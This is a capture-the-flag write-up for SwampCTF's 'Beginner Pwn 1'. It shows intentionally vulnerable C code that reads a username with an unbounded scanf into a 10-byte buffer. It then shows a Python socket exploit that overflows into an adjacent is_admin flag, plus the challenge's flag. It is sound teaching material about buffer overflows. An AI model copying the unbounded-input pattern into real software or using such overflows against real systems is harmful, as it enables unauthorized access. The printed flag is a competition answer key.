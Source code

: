 [[Pwn]]

## Description

```
Beginner Pwn 1
Pwn
Worth 25 Points
```

Are you really admin?

This challenge serves as an introduction to pwn that new ctfers can use to grasp basic pwn concepts.

nc chals.swampctf.com 40004

It also had a download link to a 'is_admin' file and a 'main.c' file.

(main.c file)
```
#include <stdio.h>

#include <stdint.h>

#include <stdbool.h>

  

int print_stack(uint8_t *stack, uint32_t size){

    printf("--- Print Stack ---\n");

  

    while(size !=  -1) {

        printf("0x%02x (%c)", stack[size], stack[size]);

        if(size <= 9) {

            printf(" = username[%d]\n", size);

        } else if(size > 9 && size <= 13) {

            printf(" = is_admin[%d]\n", size - 10);

        } else {

            printf("\n");

        }

        size -= 1;

    }

    printf("--- End Print ---\n");

}

  

void print_flag(){

    FILE *fptr;

    char flag[35] = {0};

  

    fptr = fopen("flag.txt", "r");

    fread(flag, 1, 34, fptr);

    printf("Here is your flag! %s\n", flag);

    fclose(fptr);

}

  

int main(void) {

  

    bool is_admin = false;

    char username[10] = "XXXXXXXXXX"; // prefill buffer with X's

    char choice[2];

    printf("At it's most basic, a computer exploit is finding a loophole in a programs logic which can cause unintended behavior. In this program, we demonstrate how buffer overflows can corrupt local variables.\n\n");

    printf("To log into this system, please enter your name: ");

  

    scanf("%s", username);

    print_stack(&username, 13);

    printf("Hello, %s!\n", username);

  

    if(is_admin == true) {

        printf("%s is admin\n", username);

        printf("Because the program accepts more characters then it has space to hold, you are able to corrupt the is_admin boolean. And because in C, any Boolean value that isn't 0 is considered \"True\", it lets you through!\n");

    } else {

        printf("%s is not admin\n", username);

    }

    printf("Do you want to print the flag? (y/n) ");

    scanf("%1s", choice);

    if(choice[0] == 'y') {

        if(is_admin == false) {

            printf("You do not have the necessary access!\n");

            return 0;

        }

        print_flag();

    }

    printf("Exiting!\n");

    return 0;

}
```

(Didn't include the 'is_admin' file because I found it unnecessary when finding my solution, it is more useful when learning how to actually solve a pwn challenge)


## Solution

After looking through the main.c file, it was quite obvious that you have take advantage of buffer overflow in order to set yourself as the admin.

In this case after reading the code, you can clearly see where ```

```
bool is_admin = false;
char username[10] = "XXXXXXXXXX";
```

Note, you can also check the is_admin file with an interactive disassembler to see the following
```
v6 = 0;
  strcpy(v5, "XXXXXXXXXX");
  printf(
    "At it's most basic, a computer exploit is finding a loophole in a programs logic which can cause unintended behavior"
    ". In this program, we demonstrate how buffer overflows can corrupt local variables.\n"
    "\n");
  printf("To log into this system, please enter your name: ");
  __isoc99_scanf("%s", v5);
  print_stack(v5, 13LL);
  printf("Hello, %s!\n", v5);
  if ( (v5[10] & 1) == 1 )
  {
    printf("%s is admin\n", v5);
    printf(
      "Because the program accepts more characters then it has space to hold, you are able to corrupt the is_admin boolea"
      "n. And because in C, any Boolean value that isn't 0 is considered \"True\", it lets you through!\n");
  }
```
And in the stack of main you can see:
```
-000000000000000F     _BYTE var_F[11];
-0000000000000004     _DWORD var_4;
```
Which corresponds to v5 and v6 (username and is_admin)

And whether or not you read the is_admin file or not, it was clear that you needed to use a payload to fill username and an extra byte to set is_admin

I did this by creating a simple program that connected to the specific port (40004), and inputted the payload AAAAAAAAAA\x01 as shown below:

```

import socket

  

host = "chals.swampctf.com"

port = 40004

  

# 10 A's to fill username + 1 byte (0x01) to set is_admin

payload = b"A" * 10 + b"\x01"

  

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:

    s.connect((host, port))

    # Read initial prompt

    print(s.recv(1024).decode())

  

    # Send exploit payload

    s.sendall(payload + b"\n")

    # Read response (should confirm we are admin)

    print(s.recv(1024).decode())

  

    # Send 'y' to print the flag

    s.sendall(b"y\n")

  

    # Read final response (should contain flag)

    print(s.recv(1024).decode())
```

## Flag

After running this program, it gave the output with the correct flag:
swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}